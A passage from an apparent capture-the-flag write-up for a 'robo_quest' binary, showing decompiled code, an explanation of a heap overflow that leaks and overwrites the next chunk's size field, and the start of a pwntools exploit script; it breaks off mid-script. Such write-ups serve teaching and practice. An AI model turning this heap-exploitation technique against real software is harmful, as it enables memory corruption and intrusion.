 ```

{
  long in_FS_OFFSET;
  uint question_id;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("[*] Question\'s id: ");
  question_id = 0;
  __isoc99_scanf("%d",&question_id);
                    /* The questions don't go beyond 0x10, and I can't show empty questions */
  if ((((int)question_id < 0) || (0xf < (int)question_id)) || (memset_area[(int)question_id] == 0))
  {
    puts("[-] There is no such question!\n");
  }
  else {
    printf("[*] Question [%d]: %s\n",(ulong)question_id,memset_area[(int)question_id]);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
```
Since the create_question function will let you specify question length, read in as many characters as that specified length, and no attempt is made to forcibly null terminate the question, that should allow us to overwrite metadata for the next heap chunk; specifically, we can overwrite/leak the bytes that specify the chunk's length. To test this, I set up a python pwntools script to create two, 24 byte-long questions. When we view heap contents in GDB/GEF, we can see that the string does seem to run into the next chunk's metadata, and the show_question option prints that length as part of the byte string when showing the first question's contents.
```
from pwn import *

target = process('./robo_quest')

pid = gdb.attach(target, "\nb *create_question\nb *show_question+172\nb *modify_question+175\nb *remove_question\n set disassembly-flavor intel\ncontinue")

#target = remote('139.59.174.208', 31412)

libc = ELF('.glibc/libc.so.6')
def create_question(size, content):
	print(target.recvuntil(b'4. Remove'))

	target.sendline(b'1')

	print(target.recvuntil(b'Question\'s size:'))

	target.sendline(str(size))

	print(target.recvuntil(b'here:'))

	target.sendline(content)


def modify_question(question_id, content):
	print(target.recvuntil(b'4. Remove'))

	target.sendline(b'3')

	print(target.recvuntil(b'Question\'s id:'))

```